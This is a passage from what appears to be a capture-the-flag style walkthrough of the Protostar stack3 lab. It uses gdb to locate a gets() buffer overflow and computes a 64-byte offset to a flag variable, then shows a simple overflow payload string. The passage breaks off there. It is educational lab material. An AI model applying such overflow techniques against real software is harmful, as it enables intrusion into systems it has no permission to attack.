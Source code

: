 ```
End of assembler dump.
```

Once again, we will attempt to break down the main execution flow from the above:

- grow the stack by 0x60
- set esp+0x5c to be 0x0, same again
- used gets() for the input <- buffer overflow vuln
- compare esp+0x5c with 0x0 again
- if it equals 0 (no overflow corruption) it jumps to the end
- if it doesn't equal 0, the program appears to print something.

Let's try and trigger this buffer overflow once again. Based on the previous offsets, this should be 64 bytes, but lets double check in memory to make sure. We set a breakpoint on the gets() function, and step through from there:

```
(gdb) b *main+29
Breakpoint 1 at 0x8048455: file stack3/stack3.c, line 20.
(gdb) r
Starting program: /opt/protostar/bin/stack3 
AAAABBBB

Breakpoint 1, main (argc=1, argv=0xbffffd04) at stack3/stack3.c:20
20	stack3/stack3.c: No such file or directory.
in stack3/stack3.c
(gdb) x/30wx $esp
0xbffffbf0:	0xbffffc0c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffffc00:	0xb7fd7ff4	0xb7ec6165	0xbffffc18	0x41414141 <--- input start AAAA BBBB
0xbffffc10:	0x42424242	0x08049600	0xbffffc28	0x0804830c
0xbffffc20:	0xb7ff1040	0x0804967c	0xbffffc58	0x080484a9
0xbffffc30:	0xb7fd8304	0xb7fd7ff4	0x08048490	0xbffffc58
0xbffffc40:	0xb7ec6365	0xb7ff1040	0x0804849b	0x00000000 <--- flag to flip?
0xbffffc50:	0x08048490	0x00000000	0xbffffcd8	0xb7eadc76
0xbffffc60:	0x00000001	0xbffffd04
```

Let's confirm the above is the flag in memory that we want to change, relative to our offset identified in our disassembled code above:

```
(gdb) x/wx $esp+0x5c
0xbffffc4c:	0x00000000
```

So our required offset is once again is:

​	"0xbffffc4"c - "0xbffffc0c" = "0x40" (64 in decimal)

This offset is the same as the others, so let's run our usual payload and see what happens:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

Breaking into memory again, we see the following:
